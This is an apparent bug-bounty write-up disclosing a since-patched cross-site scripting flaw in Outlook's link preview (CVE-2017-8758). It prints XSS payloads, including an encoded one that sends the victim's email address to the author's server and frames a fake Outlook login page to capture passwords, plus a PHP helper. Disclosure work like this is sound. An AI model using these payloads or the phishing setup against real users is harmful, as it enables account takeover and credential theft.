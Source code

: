 ```yaml
---
title: 'Uncovering a Bug I Found in Outlook: How Could an Account Has Been Compromised?'
layout: post
date: '2022-12-26 06:26:33'
---
```


### 1. Introduction

This blog post covers a [cross site scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) bug that I found on [Microsoft Outlook](https://en.wikipedia.org/wiki/Microsoft_Outlook).

I realized that it would be a good idea to write about it for myself and the benefit of the community.

This bug could have allowed hackers to take over a victim's account or gather sensitive data without the victim even opening an email.

### 2. TL;DR - PoC Video

I'm keeping 1080p, longer and uncencored version for myself.

[![](https://img.youtube.com/vi/aM2CgwQRlfk/0.jpg)](https://www.youtube.com/watch?v=aM2CgwQRlfk)

### 3 How I Found The Bug

1. The link preview feature was the vulnerable one. However, it only worked with a group of trusted domains. If a domain was not whitelisted, it would not be fetched. So, I searched for random strings on the search bar of Microsoft.com and Xbox.com and I collected domain of the results. It was my way to find these whitelisted domains. Those domains did not necessarily had to be owned by Microsoft. For example, creating Prezi presentations was also working.


2. The vulnerable component was not fetching every part of those trusted websites. So, I needed to go and check different fields of those pages, such as changing the title, description, or other parts. I was not able to edit the fetched content on some of the websites because the preview functionality was only fetching HTML meta tags and so on.

3. So, I ended up my search with creating a post on gallery.technet.microsoft.com. This was the post I used for my report: [https://gallery.technet.microsoft.com/Test-etmek-icin-oneriler-c5b185d4]( https://gallery.technet.microsoft.com/Test-etmek-icin-oneriler-c5b185d4)

4. I used following payload as description/body field and it worked for me:

```html
"><img src=x onerror= JAVASCRIPT-CODE-HERE.
```

5. To trigger the bug, you just need to send the URL in the email and that was it. If a victim opens or clicks the "checkbox", the payload was working.

6. As you can guess, it was possible to edit the payload remotely. After a successful attack you could even remove payloads from that page then the email wouldn't contain anything malicious but an URL of a page owned by Microsoft.



### 4. Technical Details of The PoC

1. As you can see in the PoC video above, I created a fake clone of the Outlook login page in PHP and saved login details into a MySQL database. I wanted to create a targeted (email field dynamically changes) fake page because in the original Outlook login page, it shows your email and asks for the password.


2. It was not possible to fit a big payload, so I needed to include my external JavaScript from my server, but I couldn't do because of the [CSP](https://en.wikipedia.org/wiki/Content_Security_Policy) as I remember.


3. The following JavaScript code sends the document.title (which contains the email address of the victim) and creates an iframe of my fake login page. Note: I couldn't find the original payload, but I wrote it manually by looking at my other PoC video, so typos may have happened.

```css
"><img src ="x" onerror="document.write('<iframe src="https://cok.kim/?email='+document.title+'" style="border: 0; position:fixed; top:0; left:0; right:0; bottom:0; width:100%; height:100$">')"
```

4. That one was breaking, so I used the following as the final encoded payload (it's different from the PoC video, I guess I made a typo above).

```html
"><img src="x" onerror="document.write(document.write(eval(atob('Ij48aW1nIHNyYyA9IngiIG9uZXJyb3I9ImRvY3VtZW50LndyaXRlKCc8aWZyYW1lIHNyYz0iaHR0cHM6Ly9jb2sua2ltLz9lbWFpbD0nK2RvY3VtZW50LnRpdGxlKyciIHN0eWxlPSJib3JkZXI6IDA7IHBvc2l0aW9uOmZpeGVkOyB0b3A6MDsgbGVmdDowOyByaWdodDowOyBib3R0b206MDsgd2lkdGg6MTAwJTsgaGVpZ2h0OjEwMCQiPicpIg==')))" >
```

5. My server-side code (it parses the email address of the victim from "Posta - victim@outlook.com"):
```php
<?php echo explode("-", $_GET['email'])[1]; ?>
```

## 5. Conclusion

Microsoft rewarded me with $5,000 and assigned a CVE ([CVE-2017-8758](https://msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8758)) for this bug because it was affecting the MS Exchange Server.

In the CVE description, it is written as **"Note: In order to exploit this vulnerability, a user must click a maliciously crafted link from an attacker.".** However, as you can see in the POC video, it was not even necessary to open it. When I asked about this, I learned that Microsoft writes generalized explanations to protect their users.

The PM asked me if I was going to Blackhat that year so they could meet me in person there. I couldn't go that year because I didn't have a visa or the money. I was disappointed when I didn't see my name on the MSRC Top 100 Security Researchers of 2017 list.

I kept reporting similar issues under my name and my nickname ([Arif Isik](https://en.wikipedia.org/wiki/G.O.R.A.#Cast), who is a movie character) for a year.

I was listed 35th and Arif was 92nd on the [Microsoft’s Top 100 Security Researchers of 2018](https://msrc-blog.microsoft.com/2018/08/08/microsofts-top-100-security-researchers-black-hat-2018-edition/). I was invited to [BlueHat](https://en.wikipedia.org/wiki/BlueHat) and had the opportunity to meet some engineers and see the Microsoft headquarters in Seattle.
